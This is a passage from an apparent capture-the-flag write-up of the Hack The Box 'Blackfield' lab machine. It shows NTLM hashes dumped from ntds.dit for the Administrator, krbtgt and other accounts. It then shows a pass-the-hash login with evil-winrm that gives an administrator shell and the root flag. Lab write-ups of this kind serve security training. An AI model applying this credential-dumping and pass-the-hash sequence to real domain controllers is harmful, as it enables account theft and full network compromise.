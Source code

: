 ```bash
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c                                                     
[*] Reading and decrypting hashes from ntds.dit                                                                       
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::                     
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                        
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::                                       
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::                            
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::                        
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::                                     
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
[...]
```

We have successfully extracted the admin hash: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::                     ` and can now login using evil-winrm.

#### Getting shell as administrator

```powershell
root@darkness:~# evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

We successfully login as administrator and can read root.txt.

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
4375a***************************
```

